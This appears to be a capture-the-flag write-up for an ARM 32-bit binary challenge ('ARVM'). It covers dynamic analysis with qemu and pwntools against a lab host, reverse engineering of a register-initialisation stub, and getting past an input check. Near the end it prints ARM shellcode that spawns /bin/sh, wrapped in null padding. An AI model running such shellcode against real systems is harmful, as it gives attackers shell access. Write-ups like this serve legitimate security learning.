


# Challenges Description



* * *

# Binary Specification

> [Binary File](./ARVM.zip)

```c
❯ checksec app 
[*] '/root/arvm/app'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```

```c
❯ file app 
app: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.3, BuildID[sha1]=48263c8e017389b307af19d852b9a42d60cd8995, for GNU/Linux 3.2.0, stripped
```

Architecture is ARM 32bit and binary is stripped. Firstly, I'm try to **Static Analyze** for define their function.

* * *

# Dynamic Analyzing

Before static analyzing, i'm run binary for understand program flow and check output string. Sometimes we can found important thing while dynamic analyzing. So i run 3-4 times before analyzing.

Binary has 2 case at least depending on the input string.

## Start Up

```c
❯ qemu-arm-static -L /usr/arm-linux-gnueabi ./app
Running Emulator...
Welcome Emulator
Insert Your Code :>
```

Starting the binary and it's display initial output likes above code block. And waiting input called "Code".

### Case 1

Case 1 is result when if you enter the '**ascii string**'. Result:

```c
root@db1e10e3a832 ~/arvm 3m 35s
❯ qemu-arm-static -L /usr/arm-linux-gnueabi ./app
Running Emulator...
Welcome Emulator
Insert Your Code :> asdffdasfasdfasd

root@db1e10e3a832 ~/arvm 6s
❯ 
```

Program is shutting down immediately.

### Case 2

Case 2 is '**byte string**' with python pwntools. Notice except common ascii text. eg) `\x41\x41\x42\x42`

Below code is example i used:

```python
❯ cat case.py                                 
#!/usr/bin/env python3

from pwn import *

sa = lambda t, s: p.sendafter(t, s)
sla = lambda t, s: p.sendlineafter(t, s)

context.log_level = 'debug'

p = remote("172.19.0.2", 1234)

sc = "\x01\x03\x03\x02"

p.sendafter(":> ", sc)

p.interactive()
```

And result:

```c
❯ ./case.py 
[+] Opening connection to 172.19.0.2 on port 1234: Done
/root/arvm/./case.py:14: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendafter(":> ", sc)
/usr/local/lib/python3.9/dist-packages/pwnlib/tubes/tube.py:812: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[DEBUG] Received 0x10 bytes:
    b'Running Emulator'
[DEBUG] Received 0x1 bytes:
    b'.'
[DEBUG] Received 0x1 bytes:
    b'.'
[DEBUG] Received 0x1 bytes:
    b'.'
[DEBUG] Received 0x26 bytes:
    b'\n'
    b'Welcome Emulator\n'
    b'Insert Your Code :> '
[DEBUG] Sent 0x4 bytes:
    00000000  01 03 03 02                                         │····│
    00000004
[*] Switching to interactive mode
[DEBUG] Received 0xc bytes:
    b'1. Run Code\n'
1. Run Code
[DEBUG] Received 0x1d bytes:
    b'2. View Code\n'
    b'3. Edit Code\n'
    b':> '
2. View Code
3. Edit Code
:>
```

Wow another output is displayed. Let's see once again without debug log.

```c
[*] Switching to interactive mode
1. Run Code
2. View Code
3. Edit Code
:> $ 
```

That's seems like menu. If choice `Run Code`:

```c
:> $ 1
Before run, it has some captcha
Secret code : 0x4a44ae46
Code? :> $
```

It's required captcha and print out Secret code. Copy & paste that code. The secret code is every runtime so don't focus on value.

```c
Code? :> $ 0x10b139ee
Instruction 0x2030301 is invalid
```

Value of instruction `0x2030301` is first 4 byte my input. Keep it mind.

* * *

# Anlyzing Direction

Before start static analyzing, i think about *how can i exploit this?*

Because binary is strpped that mean take a long time if you analzying all function. In this challenges binary has `Run_code` menu so i foucsing this.

* * *

# Static Analyze

> [app.idb](./app.idb)

I spent lot of time to understand their indivual function but just watching key point in here. I renaming some function and variables so i upload idb file also.

## Run Code

### Captcha

To execute Run code menu require enter the captcha. Captcha value is created from `/dev/urandom`. Just recive captcha value and send again with pwntools.

### Real Machine Run Code

If captcha is correct, binary is running entered code. Before running code, binary processing buf value.

```c
  puts("Good! Now Execute Real Machine");
  dest = calloc(1u, 0x1000u);
  memcpy(dest, *(const void **)(::buf + 8), 0x1000u);
  memset(*(void **)(::buf + 8), 0, 0x1000u);
  memcpy(*(void **)(::buf + 8), &init_register_code, 0x34u);
  v3 = memcpy((void *)(*(_DWORD *)(::buf + 8) + 0x34), dest, 0xFCCu);
  (*(void (__fastcall **)(void *))(::buf + 8))(v3);
```

Our original input, stored at `buf+8` is copy heap memory. After copy, fill in the `buf+8` as '0' and copy `init_register_code` to `buf+8`.

The `init_register_code` is one of renamed variables. It's stored:

```c
.rodata:0001346C init_register_code DCB    0             ; DATA XREF: sub_10E18+1B4↑o
.rodata:0001346C                                         ; .text:off_110D0↑o
.rodata:0001346D                 DCB    0
.rodata:0001346E                 DCB 0xA0
.rodata:0001346F                 DCB 0xE3
.rodata:00013470                 DCB    0
.rodata:00013471                 DCB 0x10
.rodata:00013472                 DCB 0xA0
.rodata:00013473                 DCB 0xE3
.rodata:00013474                 DCB    0
.rodata:00013475                 DCB 0x20
.rodata:00013476                 DCB 0xA0
.rodata:00013477                 DCB 0xE3
.rodata:00013478                 DCB    0
.rodata:00013479                 DCB 0x30 ; 0
.rodata:0001347A                 DCB 0xA0
.rodata:0001347B                 DCB 0xE3
.rodata:0001347C                 DCB    0
.rodata:0001347D                 DCB 0x40 ; @
.rodata:0001347E                 DCB 0xA0
.rodata:0001347F                 DCB 0xE3
.rodata:00013480                 DCB    0
.rodata:00013481                 DCB 0x50 ; P
.rodata:00013482                 DCB 0xA0
.rodata:00013483                 DCB 0xE3
.rodata:00013484                 DCB    0
.rodata:00013485                 DCB 0x60 ; `
.rodata:00013486                 DCB 0xA0
.rodata:00013487                 DCB 0xE3
.rodata:00013488                 DCB    0
.rodata:00013489                 DCB 0x70 ; p
.rodata:0001348A                 DCB 0xA0
.rodata:0001348B                 DCB 0xE3
.rodata:0001348C                 DCB    0
.rodata:0001348D                 DCB 0x80
.rodata:0001348E                 DCB 0xA0
.rodata:0001348F                 DCB 0xE3
.rodata:00013490                 DCB    0
.rodata:00013491                 DCB 0x90
.rodata:00013492                 DCB 0xA0
.rodata:00013493                 DCB 0xE3
.rodata:00013494                 DCB    0
.rodata:00013495                 DCB 0xA0
.rodata:00013496                 DCB 0xA0
.rodata:00013497                 DCB 0xE3
.rodata:00013498                 DCB    0
.rodata:00013499                 DCB 0xB0
.rodata:0001349A                 DCB 0xA0
.rodata:0001349B                 DCB 0xE3
.rodata:0001349C                 DCB    0
.rodata:0001349D                 DCB 0xC0
.rodata:0001349E                 DCB 0xA0
.rodata:0001349F                 DCB 0xE3
```

At last, original input is save `buf+8 + 0x34` the '0x34' is length of `init_register_code`. So i think their stored value looks like OP code.

It's disassembly result that op code:

```c
mov r0, #0
mov r1, #0
mov r2, #0
mov r3, #0
mov r4, #0
mov r5, #0
mov r6, #0
mov r7, #0
mov r8, #0
mov sb, #0
mov sl, #0
mov fp, #0
mov ip, #0
```

Also you can found [link](https://armconverter.com/?disasm&code=0000a0e3%0A0010a0e3%0A0020a0e3%0A0030a0e3%0A0040a0e3%0A0050a0e3%0A0060a0e3%0A0070a0e3%0A0080a0e3%0A0090a0e3%0A00a0a0e3%0A00b0a0e3%0A00c0a0e3).

As you can see that pretty simple register initialization code so i renamed `init_register_code`.

### Chcek Input

Binary is called some function and that is check our input. If invalid input is detect print "Invalid Input" and stop program.

To execute shellcode, we need bypass checking algorithm. But it's too many function and condition.

I just want to know how can i pass the checking algorighm. So i try the `\x00 * 0x30` payload then we can pass the algorithm.

I didn't know why but i add the padding byte both head and tail like this:

```
sc = "\x00" * 0x30
sc += "\x01\x10\x8f\xe2\x11\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc1\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x41"
sc += "\x00" * 0x30
```

I'm not sure why i did so just sense. Finally, i succeed pass the algorithm.

* * *

# Exploit



> [Full Exploit Code](./solve.py)
